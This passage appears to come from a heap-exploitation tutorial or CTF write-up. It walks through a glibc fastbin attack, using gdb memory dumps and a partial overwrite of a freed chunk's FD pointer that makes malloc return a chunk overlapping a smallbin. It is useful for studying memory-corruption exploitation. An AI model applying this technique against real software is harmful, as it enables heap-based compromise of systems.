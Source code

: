 As you can see, we freed a fastbin and it's put in it's fastbin list but it's FD is not populated because it's of fastbin size, and fastbin chunks are only singly-linked. Since we need to do fastbin attack, we need to free another fastbin sized chunk so it's placed on top of the fastbin free list and the chunk that's currently in the fastbin free list will be placed in it's FD field so they are "linked".

{% highlight text %}

    free(2)     # this will free 

gdb-peda$ x/40gx 0x000055db5d67f000
0x55db5d67f000: 0x0000000000000000  0x0000000000000031  <--- chunk 0 (fastbin, in use)
0x55db5d67f010: 0x0000000000000000  0x0000000000000000
0x55db5d67f020: 0x0000000000000000  0x0000000000000000
0x55db5d67f030: 0x0000000000000000  0x0000000000000031  <--- chunk 1 (fastbin, already free)
0x55db5d67f040: 0x0000000000000000  0x0000000000000000
0x55db5d67f050: 0x0000000000000000  0x0000000000000000
0x55db5d67f060: 0x0000000000000000  0x0000000000000031  <--- chunk 2 (fastbin, free)
0x55db5d67f070: 0x000055db5d67f030  0x0000000000000000
0x55db5d67f080: 0x0000000000000000  0x0000000000000000
0x55db5d67f090: 0x0000000000000000  0x0000000000000031  <--- chunk 3 (fastbin, in use)
0x55db5d67f0a0: 0x0000000000000000  0x0000000000000000
0x55db5d67f0b0: 0x0000000000000000  0x0000000000000000
0x55db5d67f0c0: 0x0000000000000000  0x0000000000000091  <--- chunk 4 (smallbin, in use)
0x55db5d67f0d0: 0x0000000000000000  0x0000000000000000
0x55db5d67f0e0: 0x0000000000000000  0x0000000000000000

gdb-peda$ x/40gx &main_arena
0x7f2f858deb20 <main_arena>:    0x0000000000000000  0x0000000000000000
0x7f2f858deb30 <main_arena+16>: 0x000055db5d67f060  0x0000000000000000  <--- last freed chunk
0x7f2f858deb40 <main_arena+32>: 0x0000000000000000  0x0000000000000000   is placed on top of
0x7f2f858deb50 <main_arena+48>: 0x0000000000000000  0x0000000000000000   free list
0x7f2f858deb60 <main_arena+64>: 0x0000000000000000  0x0000000000000000
0x7f2f858deb70 <main_arena+80>: 0x0000000000000000  0x000055db5d67f150
0x7f2f858deb80 <main_arena+96>: 0x0000000000000000  0x00007f2f858deb78

{% endhighlight %}

### Fastbin attack

To explain the fastbin attack, we now have 2 free chunks in the fastbin free list. If we request an allocation of this size, malloc will serve us the chunk currently on top of the list `(0x000055db5d67f060)` and it will place the chunk pointed to by it's FD pointer on top of the free list for the next allocation. If we request another chunk of this size, malloc will serve us `0x000055db5d67f030` since it's already placed on top of the free list and awaiting to be allocated. However, this is where we trick malloc. If we do partial overwrite on the pointer at `[0x55db5d67f070]` and we overwrite it's LSB with the location of the smallbin `(0x55db5d67f0c0)`. After the first time we request `0x000055db5d67f060`, `0x000055db5d67f060->FD` which is now `0x55db5d67f0c0` will be placed on top of the fastbin free list. And on the next allocation malloc will serve us a chunk allocated right on top of the smallbin. The only requirement we need to pass with the final allocation is 

{% highlight C %}
if (__builtin_expect (fastbin_index (chunksize (victim)) != idx, 0))
{
    errstr = "malloc(): memory corruption (fast)";
errout:
    malloc_printerr (check_action, errstr, chunk2mem (victim), av);
    return NULL;
}
{% endhighlight %}
